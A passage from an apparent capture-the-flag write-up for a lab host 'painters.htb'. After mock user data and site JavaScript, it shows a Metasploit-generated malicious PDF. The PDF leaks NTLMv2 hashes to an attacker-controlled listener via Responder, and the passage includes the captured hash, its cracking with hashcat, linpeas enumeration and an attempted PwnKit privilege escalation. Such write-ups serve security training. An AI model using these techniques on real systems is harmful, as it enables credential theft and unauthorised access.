        "Age": 39,
        "Country": 5,
        "Address": "719-7009 Auctor Av.",
        "Married": false
      },
      {
        "Name": "Jonah Johns",
        "Age": 28,
        "Country": 5,
        "Address": "P.O. Box 939, 9310 A Ave",
        "Married": false
      },
      {
        "Name": "Herman Rosa",
        "Age": 49,
        "Country": 7,
        "Address": "718-7162 Molestie Av.",
        "Married": true
      },
      {
        "Name": "Arthur Gay",
        "Age": 20,
        "Country": 7,
        "Address": "5497 Neque Street",
        "Married": false
      },
      {
        "Name": "Xena Wilkerson",
        "Age": 63,
        "Country": 1,
        "Address": "Ap #303-6974 Proin Street",
        "Married": true
      },
      {
        "Name": "Lilah Atkins",
        "Age": 33,
        "Country": 5,
        "Address": "622-8602 Gravida Ave",
        "Married": true
      },
      {
        "Name": "Malik Shepard",
        "Age": 59,
        "Country": 1,
        "Address": "967-5176 Tincidunt Av.",
        "Married": false
      },
      {
        "Name": "Keely Silva",
        "Age": 24,
        "Country": 1,
        "Address": "P.O. Box 153, 8995 Praesent Ave",
        "Married": false
      },
      {
        "Name": "Hunter Pate",
        "Age": 73,
        "Country": 7,
        "Address": "P.O. Box 771, 7599 Ante, Road",
        "Married": false
      },
      {
        "Name": "Mikayla Roach",
        "Age": 55,
        "Country": 5,
        "Address": "Ap #438-9886 Donec Rd.",
        "Married": true
      },
      {
        "Name": "Upton Joseph",
        "Age": 48,
        "Country": 4,
        "Address": "Ap #896-7592 Habitant St.",
        "Married": true
      },
      {
        "Name": "Jeanette Pate",
        "Age": 59,
        "Country": 2,
        "Address": "P.O. Box 177, 7584 Amet, St.",
        "Married": false
      },
      {
        "Name": "Kaden Hernandez",
        "Age": 79,
        "Country": 3,
        "Address": "366 Ut St.",
        "Married": true
      },
      {
        "Name": "Kenyon Stevens",
        "Age": 20,
        "Country": 3,
        "Address": "P.O. Box 704, 4580 Gravida Rd.",
        "Married": false
      },
      {
        "Name": "Jerome Harper",
        "Age": 31,
        "Country": 5,
        "Address": "2464 Porttitor Road",
        "Married": false
      },
      {
        "Name": "Jelani Patel",
        "Age": 36,
        "Country": 2,
        "Address": "P.O. Box 541, 5805 Nec Av.",
        "Married": true
      },
      {
        "Name": "Keaton Oconnor",
        "Age": 21,
        "Country": 1,
        "Address": "Ap #657-1093 Nec, Street",
        "Married": false
      },
      {
        "Name": "Bree Johnston",
        "Age": 31,
        "Country": 2,
        "Address": "372-5942 Vulputate Avenue",
        "Married": false
      },
      {
        "Name": "Maisie Hodges",
        "Age": 70,
        "Country": 7,
        "Address": "P.O. Box 445, 3880 Odio, Rd.",
        "Married": false
      },
      {
        "Name": "Kuame Calhoun",
        "Age": 39,
        "Country": 2,
        "Address": "P.O. Box 609, 4105 Rutrum St.",
        "Married": true
      },
      {
        "Name": "Carlos Cameron",
        "Age": 38,
        "Country": 5,
        "Address": "Ap #215-5386 A, Avenue",
        "Married": false
      },
      {
        "Name": "Fulton Parsons",
        "Age": 25,
        "Country": 7,
        "Address": "P.O. Box 523, 3705 Sed Rd.",
        "Married": false
      },
      {
        "Name": "Wallace Christian",
        "Age": 43,
        "Country": 3,
        "Address": "416-8816 Mauris Avenue",
        "Married": true
      },
      {
        "Name": "Caryn Maldonado",
        "Age": 40,
        "Country": 1,
        "Address": "108-282 Nonummy Ave",
        "Married": false
      },
      {
        "Name": "Whilemina Frank",
        "Age": 20,
        "Country": 7,
        "Address": "P.O. Box 681, 3938 Egestas. Av.",
        "Married": true
      },
      {
        "Name": "Emery Moon",
        "Age": 41,
        "Country": 4,
        "Address": "Ap #717-8556 Non Road",
        "Married": true
      },
      {
        "Name": "Price Watkins",
        "Age": 35,
        "Country": 4,
        "Address": "832-7810 Nunc Rd.",
        "Married": false
      },
      {
        "Name": "Lydia Castillo",
        "Age": 59,
        "Country": 7,
        "Address": "5280 Placerat, Ave",
        "Married": true
      },
      {
        "Name": "Lawrence Conway",
        "Age": 53,
        "Country": 1,
        "Address": "Ap #452-2808 Imperdiet St.",
        "Married": false
      },
      {
        "Name": "Kalia Nicholson",
        "Age": 67,
        "Country": 5,
        "Address": "P.O. Box 871, 3023 Tellus Road",
        "Married": true
      },
      {
        "Name": "Brielle Baxter",
        "Age": 45,
        "Country": 3,
        "Address": "Ap #822-9526 Ut, Road",
        "Married": true
      },
      {
        "Name": "Valentine Brady",
        "Age": 72,
        "Country": 7,
        "Address": "8014 Enim. Road",
        "Married": true
      },
      {
        "Name": "Rebecca Gardner",
        "Age": 57,
        "Country": 4,
        "Address": "8655 Arcu. Road",
        "Married": true
      },
      {
        "Name": "Vladimir Tate",
        "Age": 26,
        "Country": 1,
        "Address": "130-1291 Non, Rd.",
        "Married": true
      },
      {
        "Name": "Vernon Hays",
        "Age": 56,
        "Country": 4,
        "Address": "964-5552 In Rd.",
        "Married": true
      },
      {
        "Name": "Allegra Hull",
        "Age": 22,
        "Country": 4,
        "Address": "245-8891 Donec St.",
        "Married": true
      },
      {
        "Name": "Hu Hendrix",
        "Age": 65,
        "Country": 7,
        "Address": "428-5404 Tempus Ave",
        "Married": true
      },
      {
        "Name": "Kenyon Battle",
        "Age": 32,
        "Country": 2,
        "Address": "921-6804 Lectus St.",
        "Married": false
      },
      {
        "Name": "Gloria Nielsen",
        "Age": 24,
        "Country": 4,
        "Address": "Ap #275-4345 Lorem, Street",
        "Married": true
      },
      {
        "Name": "Illiana Kidd",
        "Age": 59,
        "Country": 2,
        "Address": "7618 Lacus. Av.",
        "Married": false
      },
      {
        "Name": "Adria Todd",
        "Age": 68,
        "Country": 6,
        "Address": "1889 Tincidunt Road",
        "Married": false
      },
      {
        "Name": "Kirsten Mayo",
        "Age": 71,
        "Country": 1,
        "Address": "100-8640 Orci, Avenue",
        "Married": false
      },
      {
        "Name": "Willa Hobbs",
        "Age": 60,
        "Country": 6,
        "Address": "P.O. Box 323, 158 Tristique St.",
        "Married": false
      },
      {
        "Name": "Alexis Clements",
        "Age": 69,
        "Country": 5,
        "Address": "P.O. Box 176, 5107 Proin Rd.",
        "Married": false
      },
      {
        "Name": "Akeem Conrad",
        "Age": 60,
        "Country": 2,
        "Address": "282-495 Sed Ave",
        "Married": true
      },
      {
        "Name": "Montana Silva",
        "Age": 79,
        "Country": 6,
        "Address": "P.O. Box 120, 9766 Consectetuer St.",
        "Married": false
      },
      {
        "Name": "Kaseem Hensley",
        "Age": 77,
        "Country": 6,
        "Address": "Ap #510-8903 Mauris. Av.",
        "Married": true
      },
      {
        "Name": "Christopher Morton",
        "Age": 35,
        "Country": 5,
        "Address": "P.O. Box 234, 3651 Sodales Avenue",
        "Married": false
      },
      {
        "Name": "Wade Fernandez",
        "Age": 49,
        "Country": 6,
        "Address": "740-5059 Dolor. Road",
        "Married": true
      },
      {
        "Name": "Illiana Kirby",
        "Age": 31,
        "Country": 2,
        "Address": "527-3553 Mi Ave",
        "Married": false
      },
      {
        "Name": "Kimberley Hurley",
        "Age": 65,
        "Country": 5,
        "Address": "P.O. Box 637, 9915 Dictum St.",
        "Married": false
      },
      {
        "Name": "Arthur Olsen",
        "Age": 74,
        "Country": 5,
        "Address": "887-5080 Eget St.",
        "Married": false
      },
      {
        "Name": "Brody Potts",
        "Age": 59,
        "Country": 2,
        "Address": "Ap #577-7690 Sem Road",
        "Married": false
      },
      {
        "Name": "Dillon Ford",
        "Age": 60,
        "Country": 1,
        "Address": "Ap #885-9289 A, Av.",
        "Married": true
      },
      {
        "Name": "Hannah Juarez",
        "Age": 61,
        "Country": 2,
        "Address": "4744 Sapien, Rd.",
        "Married": true
      },
      {
        "Name": "Vincent Shaffer",
        "Age": 25,
        "Country": 2,
        "Address": "9203 Nunc St.",
        "Married": true
      },
      {
        "Name": "George Holt",
        "Age": 27,
        "Country": 6,
        "Address": "4162 Cras Rd.",
        "Married": false
      },
      {
        "Name": "Tobias Bartlett",
        "Age": 74,
        "Country": 4,
        "Address": "792-6145 Mauris St.",
        "Married": true
      },
      {
        "Name": "Xavier Hooper",
        "Age": 35,
        "Country": 1,
        "Address": "879-5026 Interdum. Rd.",
        "Married": false
      },
      {
        "Name": "Declan Dorsey",
        "Age": 31,
        "Country": 2,
        "Address": "Ap #926-4171 Aenean Road",
        "Married": true
      },
      {
        "Name": "Clementine Tran",
        "Age": 43,
        "Country": 4,
        "Address": "P.O. Box 176, 9865 Eu Rd.",
        "Married": true
      },
      {
        "Name": "Pamela Moody",
        "Age": 55,
        "Country": 6,
        "Address": "622-6233 Luctus Rd.",
        "Married": true
      },
      {
        "Name": "Julie Leon",
        "Age": 43,
        "Country": 6,
        "Address": "Ap #915-6782 Sem Av.",
        "Married": true
      },
      {
        "Name": "Shana Nolan",
        "Age": 79,
        "Country": 5,
        "Address": "P.O. Box 603, 899 Eu St.",
        "Married": false
      },
      {
        "Name": "Vaughan Moody",
        "Age": 37,
        "Country": 5,
        "Address": "880 Erat Rd.",
        "Married": false
      },
      {
        "Name": "Randall Reeves",
        "Age": 44,
        "Country": 3,
        "Address": "1819 Non Street",
        "Married": false
      },
      {
        "Name": "Dominic Raymond",
        "Age": 68,
        "Country": 1,
        "Address": "Ap #689-4874 Nisi Rd.",
        "Married": true
      },
      {
        "Name": "Lev Pugh",
        "Age": 69,
        "Country": 5,
        "Address": "Ap #433-6844 Auctor Avenue",
        "Married": true
      },
      {
        "Name": "Desiree Hughes",
        "Age": 80,
        "Country": 4,
        "Address": "605-6645 Fermentum Avenue",
        "Married": true
      },
      {
        "Name": "Idona Oneill",
        "Age": 23,
        "Country": 7,
        "Address": "751-8148 Aliquam Avenue",
        "Married": true
      },
      {
        "Name": "Lani Mayo",
        "Age": 76,
        "Country": 1,
        "Address": "635-2704 Tristique St.",
        "Married": true
      },
      {
        "Name": "Cathleen Bonner",
        "Age": 40,
        "Country": 1,
        "Address": "916-2910 Dolor Av.",
        "Married": false
      },
      {
        "Name": "Sydney Murray",
        "Age": 44,
        "Country": 5,
        "Address": "835-2330 Fringilla St.",
        "Married": false
      },
      {
        "Name": "Brenna Rodriguez",
        "Age": 77,
        "Country": 6,
        "Address": "3687 Imperdiet Av.",
        "Married": true
      },
      {
        "Name": "Alfreda Mcdaniel",
        "Age": 38,
        "Country": 7,
        "Address": "745-8221 Aliquet Rd.",
        "Married": true
      },
      {
        "Name": "Zachery Atkins",
        "Age": 30,
        "Country": 1,
        "Address": "549-2208 Auctor. Road",
        "Married": true
      },
      {
        "Name": "Amelia Rich",
        "Age": 56,
        "Country": 4,
        "Address": "P.O. Box 734, 4717 Nunc Rd.",
        "Married": false
      },
      {
        "Name": "Kiayada Witt",
        "Age": 62,
        "Country": 3,
        "Address": "Ap #735-3421 Malesuada Avenue",
        "Married": false
      },
      {
        "Name": "Lysandra Pierce",
        "Age": 36,
        "Country": 1,
        "Address": "Ap #146-2835 Curabitur St.",
        "Married": true
      },
      {
        "Name": "Cara Rios",
        "Age": 58,
        "Country": 4,
        "Address": "Ap #562-7811 Quam. Ave",
        "Married": true
      },
      {
        "Name": "Austin Andrews",
        "Age": 55,
        "Country": 7,
        "Address": "P.O. Box 274, 5505 Sociis Rd.",
        "Married": false
      },
      {
        "Name": "Lillian Peterson",
        "Age": 39,
        "Country": 2,
        "Address": "6212 A Avenue",
        "Married": false
      },
      {
        "Name": "Adria Beach",
        "Age": 29,
        "Country": 2,
        "Address": "P.O. Box 183, 2717 Nunc Avenue",
        "Married": true
      },
      {
        "Name": "Oleg Durham",
        "Age": 80,
        "Country": 4,
        "Address": "931-3208 Nunc Rd.",
        "Married": false
      },
      {
        "Name": "Casey Reese",
        "Age": 60,
        "Country": 4,
        "Address": "383-3675 Ultrices, St.",
        "Married": false
      },
      {
        "Name": "Kane Burnett",
        "Age": 80,
        "Country": 1,
        "Address": "759-8212 Dolor. Ave",
        "Married": false
      },
      {
        "Name": "Stewart Wilson",
        "Age": 46,
        "Country": 7,
        "Address": "718-7845 Sagittis. Av.",
        "Married": false
      },
      {
        "Name": "Charity Holcomb",
        "Age": 31,
        "Country": 6,
        "Address": "641-7892 Enim. Ave",
        "Married": false
      },
      {
        "Name": "Kyra Cummings",
        "Age": 43,
        "Country": 4,
        "Address": "P.O. Box 702, 6621 Mus. Av.",
        "Married": false
      },
      {
        "Name": "Stuart Wallace",
        "Age": 25,
        "Country": 7,
        "Address": "648-4990 Sed Rd.",
        "Married": true
      },
      {
        "Name": "Carter Clarke",
        "Age": 59,
        "Country": 6,
        "Address": "Ap #547-2921 A Street",
        "Married": false
      }
    ];

    db.users = [{
        "ID": "x",
        "Account": "A758A693-0302-03D1-AE53-EEFE22855556",
        "Name": "Carson Kelley",
        "RegisterDate": "2002-04-20T22:55:52-07:00"
      },
      {
        "Account": "D89FF524-1233-0CE7-C9E1-56EFF017A321",
        "Name": "Prescott Griffin",
        "RegisterDate": "2011-02-22T05:59:55-08:00"
      },
      {
        "Account": "06FAAD9A-5114-08F6-D60C-961B2528B4F0",
        "Name": "Amir Saunders",
        "RegisterDate": "2014-08-13T09:17:49-07:00"
      },
      {
        "Account": "EED7653D-7DD9-A722-64A8-36A55ECDBE77",
        "Name": "Derek Thornton",
        "RegisterDate": "2012-02-27T01:31:07-08:00"
      },
      {
        "Account": "2A2E6D40-FEBD-C643-A751-9AB4CAF1E2F6",
        "Name": "Fletcher Romero",
        "RegisterDate": "2010-06-25T15:49:54-07:00"
      },
      {
        "Account": "3978F8FA-DFF0-DA0E-0A5D-EB9D281A3286",
        "Name": "Thaddeus Stein",
        "RegisterDate": "2013-11-10T07:29:41-08:00"
      },
      {
        "Account": "658DBF5A-176E-569A-9273-74FB5F69FA42",
        "Name": "Nash Knapp",
        "RegisterDate": "2005-06-24T09:11:19-07:00"
      },
      {
        "Account": "76D2EE4B-7A73-1212-F6F2-957EF8C1F907",
        "Name": "Quamar Vega",
        "RegisterDate": "2011-04-13T20:06:29-07:00"
      },
      {
        "Account": "00E46809-A595-CE82-C5B4-D1CAEB7E3E58",
        "Name": "Philip Galloway",
        "RegisterDate": "2008-08-21T18:59:38-07:00"
      },
      {
        "Account": "C196781C-DDCC-AF83-DDC2-CA3E851A47A0",
        "Name": "Mason French",
        "RegisterDate": "2000-11-15T00:38:37-08:00"
      },
      {
        "Account": "5911F201-818A-B393-5888-13157CE0D63F",
        "Name": "Ross Cortez",
        "RegisterDate": "2010-05-27T17:35:32-07:00"
      },
      {
        "Account": "B8BB78F9-E1A1-A956-086F-E12B6FE168B6",
        "Name": "Logan King",
        "RegisterDate": "2003-07-08T16:58:06-07:00"
      },
      {
        "Account": "06F636C3-9599-1A2D-5FD5-86B24ADDE626",
        "Name": "Cedric Leblanc",
        "RegisterDate": "2011-06-30T14:30:10-07:00"
      },
      {
        "Account": "FE880CDD-F6E7-75CB-743C-64C6DE192412",
        "Name": "Simon Sullivan",
        "RegisterDate": "2013-06-11T16:35:07-07:00"
      },
      {
        "Account": "BBEDD673-E2C1-4872-A5D3-C4EBD4BE0A12",
        "Name": "Jamal West",
        "RegisterDate": "2001-03-16T20:18:29-08:00"
      },
      {
        "Account": "19BC22FA-C52E-0CC6-9552-10365C755FAC",
        "Name": "Hector Morales",
        "RegisterDate": "2012-11-01T01:56:34-07:00"
      },
      {
        "Account": "A8292214-2C13-5989-3419-6B83DD637D6C",
        "Name": "Herrod Hart",
        "RegisterDate": "2008-03-13T19:21:04-07:00"
      },
      {
        "Account": "0285564B-F447-0E7F-EAA1-7FB8F9C453C8",
        "Name": "Clark Maxwell",
        "RegisterDate": "2004-08-05T08:22:24-07:00"
      },
      {
        "Account": "EA78F076-4F6E-4228-268C-1F51272498AE",
        "Name": "Reuben Walter",
        "RegisterDate": "2011-01-23T01:55:59-08:00"
      },
      {
        "Account": "6A88C194-EA21-426F-4FE2-F2AE33F51793",
        "Name": "Ira Ingram",
        "RegisterDate": "2008-08-15T05:57:46-07:00"
      },
      {
        "Account": "4275E873-439C-AD26-56B3-8715E336508E",
        "Name": "Damian Morrow",
        "RegisterDate": "2015-09-13T01:50:55-07:00"
      },
      {
        "Account": "A0D733C4-9070-B8D6-4387-D44F0BA515BE",
        "Name": "Macon Farrell",
        "RegisterDate": "2011-03-14T05:41:40-07:00"
      },
      {
        "Account": "B3683DE8-C2FA-7CA0-A8A6-8FA7E954F90A",
        "Name": "Joel Galloway",
        "RegisterDate": "2003-02-03T04:19:01-08:00"
      },
      {
        "Account": "01D95A8E-91BC-2050-F5D0-4437AAFFD11F",
        "Name": "Rigel Horton",
        "RegisterDate": "2015-06-20T11:53:11-07:00"
      },
      {
        "Account": "F0D12CC0-31AC-A82E-FD73-EEEFDBD21A36",
        "Name": "Sylvester Gaines",
        "RegisterDate": "2004-03-12T09:57:13-08:00"
      },
      {
        "Account": "874FCC49-9A61-71BC-2F4E-2CE88348AD7B",
        "Name": "Abbot Mckay",
        "RegisterDate": "2008-12-26T20:42:57-08:00"
      },
      {
        "Account": "B8DA1912-20A0-FB6E-0031-5F88FD63EF90",
        "Name": "Solomon Green",
        "RegisterDate": "2013-09-04T01:44:47-07:00"
      }
    ];

  }());
})(jQuery);
```

Next checking the login function from **http://painters.htb/static/js/login.js** we can see that most of the chars get's cleaned by diminishing the probability of fuzzing:

```
(function ($) {
    "use strict";


    /*==================================================================
    [ Focus input ]*/
    $('.input100').each(function(){
        $(this).on('blur', function(){
            if($(this).val().trim() != "") {
                $(this).addClass('has-val');
            }
            else {
                $(this).removeClass('has-val');
            }
        })    
    })
  
  
    /*==================================================================
    [ Validate ]*/
    var input = $('.validate-input .input100');

    $('.validate-form').on('submit',function(){
        var check = true;

        for(var i=0; i<input.length; i++) {
            if(validate(input[i]) == false){
                showValidate(input[i]);
                check=false;
            }
        }

        return check;
    });


    $('.validate-form .input100').each(function(){
        $(this).focus(function(){
           hideValidate(this);
        });
    });

    function validate (input) {
        if($(input).attr('type') == 'email' || $(input).attr('name') == 'email') {
            if($(input).val().trim().match(/^([a-zA-Z0-9_\-\.]+)@((\[[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.)|(([a-zA-Z0-9\-]+\.)+))([a-zA-Z]{1,5}|[0-9]{1,3})(\]?)$/) == null) {
                return false;
            }
        }
        else {
            if($(input).val().trim() == ''){
                return false;
            }
        }
    }
/*
    function showValidate(input) {
        var thisAlert = $(input).parent();

        $(thisAlert).addClass('alert-validate');
    }

    function hideValidate(input) {
        var thisAlert = $(input).parent();

        $(thisAlert).removeClass('alert-validate');
    }
*/    
    
})(jQuery);
```

But what is more important to us it the CV upload function under \*\*[http://painters.htb/static/js/main.js\*\*:](http://painters.htb/static/js/main.js**:)

```
if ($('#upload_form').length > 0) {
    fileform.addEventListener('submit', e => {
        e.preventDefault();

        outputupload.innerHTML = '';
        alertsupload.innerHTML = '';

    var files = document.getElementById("upload_file").files;

    if(files.length > 0 ){

        var formData = new FormData();
        formData.append("file", files[0]);

        var xhttp = new XMLHttpRequest();

        // Set POST method and ajax file path
      	    xhttp.open("POST", "/applications", true);

  	    // call on request changes state
      	    xhttp.onreadystatechange = function() {
                if (this.readyState == 4 && this.status == 200) {

                    var response = this.responseText;
                    if(response == 1){
                        outputupload.style.display = 'block';
                        outputupload.innerHTML = "Successfully uploaded application!";
                        setTimeout(() => {
                                $('#output-upload').fadeOut('fast');
                        }, 2000);
            } else {
                        alertsupload.innerHTML = 'Only PDF format is supported!';
                        alertsupload.style.display = 'block';
                        setTimeout(() => {
                                $('#alerts-upload').fadeOut('fast');
                        }, 2800);
                    }
                }
            };

            // Send request with data
            xhttp.send(formData);

        } else {
            alert("Please select a file");
        }
    });
}
```

Next I almost forgot to check the "Quote" function:



As we see a JSON type is sent thru via the application, but I asked for a small nudge and apparently I was on the right track, we had to use link to Responder to catch a hash but what I was missing is that it was possible via PDF masquerading...

We can use a module that generated a malicious PDF file with a link to your IP:

```
msf6 auxiliary(fileformat/badpdf) > show options 

Module options (auxiliary/fileformat/badpdf):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   FILENAME   curriculum.pdf   no        Filename
   LHOST      10.10.17.55      yes       Host listening for incoming SMB/WebDAV traffic
   PDFINJECT                   no        Path and filename to existing PDF to inject UNC link code into


View the full module info with the info, or info -d command.

msf6 auxiliary(fileformat/badpdf) > run

[+] curriculum.pdf stored at /root/.msf4/local/curriculum.pdf
[*] Auxiliary module execution completed
```

Next we setup a Listening Responder on our machine:  


And we apply for a JOB:


And after several minutes we have a login baby:

```
+] Listening for events...                                                                                                                                                                  

[SMB] NTLMv2-SSP Client   : 10.10.110.35
[SMB] NTLMv2-SSP Username : PAINTERS\riley
[SMB] NTLMv2-SSP Hash     : riley::PAINTERS:b257816ed4415171:6DDD6886F752B8975C9C6B6A9D8A5F44:0101000000000000002A139254E2D90153E7C8B24ACB115300000000020008004200310050005A0001001E00570049004E002D0045004D0044004D00580047005000300058004600440004003400570049004E002D0045004D0044004D0058004700500030005800460044002E004200310050005A002E004C004F00430041004C00030014004200310050005A002E004C004F00430041004C00050014004200310050005A002E004C004F00430041004C0007000800002A139254E2D90106000400020000000800300030000000000000000000000000200000297846FBC48DBB6E68B22E41021C89C0811DE93FF28F6AD4F9A57C73BF6590A50A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310037002E00350035000000000000000000
```

Which can be cracked easily:

```
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

RILEY::PAINTERS:b257816ed4415171:6ddd6886f752b8975c9c6b6a9d8a5f44:0101000000000000002a139254e2d90153e7c8b24acb115300000000020008004200310050005a0001001e00570049004e002d0045004d0044004d00580047005000300058004600440004003400570049004e002d0045004d0044004d0058004700500030005800460044002e004200310050005a002e004c004f00430041004c00030014004200310050005a002e004c004f00430041004c00050014004200310050005a002e004c004f00430041004c0007000800002a139254e2d90106000400020000000800300030000000000000000000000000200000297846fbc48dbb6e68b22e41021c89c0811de93ff28f6ad4f9a57c73bf6590a50a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310037002e00350035000000000000000000:P@ssw0rd
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: RILEY::PAINTERS:b257816ed4415171:6ddd6886f752b8975c...000000
Time.Started.....: Fri Sep  8 13:15:51 2023 (0 secs)
Time.Estimated...: Fri Sep  8 13:15:51 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   781.6 kH/s (5.13ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 12288/14344385 (0.09%)
Rejected.........: 0/12288 (0.00%)
Restore.Point....: 6144/14344385 (0.04%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: horoscope -> hawkeye

Started: Fri Sep  8 13:15:38 2023
Stopped: Fri Sep  8 13:15:53 2023
```

* * *

## PE:

I tried those credendtials under /administration but it´s not working which means it  should be the first access to SSH...

Now we can use this password to login into machine via SSH and get our first flag:



We can start by identifying the hostname and IP settings and possible usernames:

```
riley@mail:/home$ ll
total 24
drwxr-xr-x  6 root   root   4096 Oct 14  2022 ./
drwxr-xr-x 18 root   root   4096 Dec  8  2022 ../
drwxr-xr-x  2 blake  blake  4096 Nov 29  2022 blake/
drwxr-xr-x  2 daniel daniel 4096 Nov 29  2022 daniel/
drwxr-xr-x  4 matt   matt   4096 May 10 09:11 matt/
drwxr-xr-x  4 riley  riley  4096 Sep  8 11:15 riley/
riley@mail:/home$ 
riley@mail:/home$ 
riley@mail:/home$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:80:cf brd ff:ff:ff:ff:ff:ff
    inet 192.168.110.51/24 brd 192.168.110.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:80cf/64 scope link 
       valid_lft forever preferred_lft forever
riley@mail:/home$ 
riley@mail:/home$ 
riley@mail:/home$ hostname
mail
riley@mail:/home$
```

As we can see we have several other usernames on the machine, the machine as I supposed have a secundary NIC pointint to the internal network on **192.168.110.0/24** and it hostname is MAIL which identity this as the :


Now we need to start to PE either to other users and next to Root so we can get another flag here!

Seems like all the other users home are void?



And off course riley doesn´t hold any sudo rights on the machine. I will upload Linpeas and check what interesting info we have here.

```
╔═══════════════════╗
═══════════════════════════════╣ Basic information ╠═══════════════════════════════                                                                                                          
                               ╚═══════════════════╝                                                                                                                                         
OS: Linux version 5.4.0-148-generic (buildd@lcy02-amd64-112) (gcc version 9.4.0 (Ubuntu 9.4.0-1ubuntu1~20.04.1)) #165-Ubuntu SMP Tue Apr 18 08:53:12 UTC 2023
User & Groups: uid=1003(riley) gid=1003(riley) groups=1003(riley)
Hostname: mail
Writable folder: /dev/shm
[+] /usr/bin/ping is available for network discovery (linpeas can discover hosts, learn more with -h)
[+] /usr/bin/bash is available for network discovery, port scanning and port forwarding (linpeas can discover hosts, scan ports, and forward ports. Learn more with -h)                      
[+] /usr/bin/nc is available for network discovery & port scanning (linpeas can discover hosts and scan ports, learn more with -h)      

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                                                                              
Sudo version 1.8.31                                                                                                                                                                          

                              ╔═════════════════════╗
══════════════════════════════╣ Network Information ╠══════════════════════════════                                                                                                          
                              ╚═════════════════════╝                                                                                                                                        
╔══════════╣ Hostname, hosts and DNS
mail                                                                                                                                                                                         
127.0.0.1 localhost painters.htb mail.painters.htb
127.0.1.1 mail

::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

nameserver 127.0.0.53
options edns0 trust-ad

╔══════════╣ Interfaces
# symbolic names for networks, see networks(5) for more information                                                                                                                          
link-local 169.254.0.0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.110.51  netmask 255.255.255.0  broadcast 192.168.110.255
        inet6 fe80::250:56ff:feb9:80cf  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:80:cf  txqueuelen 1000  (Ethernet)
        RX packets 850804  bytes 259993199 (259.9 MB)
        RX errors 0  dropped 85  overruns 0  frame 0
        TX packets 1256130  bytes 297657521 (297.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 70465  bytes 5023206 (5.0 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 70465  bytes 5023206 (5.0 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0


╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                                                                
tcp        0      0 0.0.0.0:995             0.0.0.0:*               LISTEN      -                                                                                                            
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:587             0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:110             0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:143             0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:25              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:993             0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::995                  :::*                    LISTEN      -                   
tcp6       0      0 :::587                  :::*                    LISTEN      -                   
tcp6       0      0 :::110                  :::*                    LISTEN      -                   
tcp6       0      0 :::143                  :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::25                   :::*                    LISTEN      -                   
tcp6       0      0 :::443                  :::*                    LISTEN      -                   
tcp6       0      0 :::993                  :::*                    LISTEN      -           

╔══════════╣ Superusers
root:x:0:0:root:/root:/bin/bash                                                                                                                                                              

╔══════════╣ Users with console
blake:x:1002:1002:Blake Morris,,,:/home/blake:/bin/bash                                                                                                                                      
daniel:x:1001:1001:Daniel Morris,,,:/home/daniel:/bin/bash
matt:x:1000:1000:Matt Fisher:/home/matt:/bin/bash
riley:x:1003:1003:Riley Smart,,,:/home/riley:/bin/bash
root:x:0:0:root:/root:/bin/bash


╔══════════╣ Unexpected in /opt (usually empty)
total 12                                                                                                                                                                                     
drwxr-xr-x  2 root root 4096 Apr  4  2022 .
drwxr-xr-x 18 root root 4096 Dec  8  2022 ..
-rw-r--r--  1 root root  272 Apr  4  2022 config
```

Ok we have found some stuff, we can see if that sudo version is vulnerable to SUDO BARONSAMEDIT 2 and PWNKIT. That config file under **/opt** is just a DNS setting.

I will upload pspy as well and check if we can see something strange there... SO PWNKIT is not working:

```
riley@mail:/tmp$ python3 CVE-2021-4034.py 
[+] Creating shared library for exploit code.
